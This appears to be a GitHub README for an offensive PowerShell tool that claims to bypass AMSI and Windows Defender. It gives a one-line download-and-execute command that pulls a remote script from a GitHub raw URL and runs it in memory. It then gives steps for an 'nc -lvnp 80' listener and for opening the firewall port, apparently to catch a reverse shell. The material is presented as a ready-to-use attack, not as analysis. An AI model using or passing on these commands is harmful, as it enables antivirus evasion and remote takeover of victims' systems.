 ## Basic Usage
This is a powershell script that bypass amsi / defender

How to execute ? 
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obstest/main/script.ps1')
```

## set up a listerner 

````
nc -lvnp 80
````
You need to make sure that you have the port allowed by you firewall
You can check by using 
````
ufw status
````
You can allow a port by using
````
ufw allow [port]
````

